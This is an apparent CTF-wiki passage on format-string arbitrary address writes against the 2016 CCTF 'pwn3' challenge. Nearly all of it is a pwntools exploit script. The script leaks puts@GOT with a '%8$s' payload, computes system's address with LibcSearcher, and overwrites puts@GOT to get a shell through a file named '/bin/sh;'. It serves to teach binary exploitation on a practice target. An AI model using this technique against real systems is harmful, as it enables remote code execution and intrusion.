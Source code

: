     - 格式化字符串任意地址写

[pwn3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2016-CCTF-pwn3)

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
```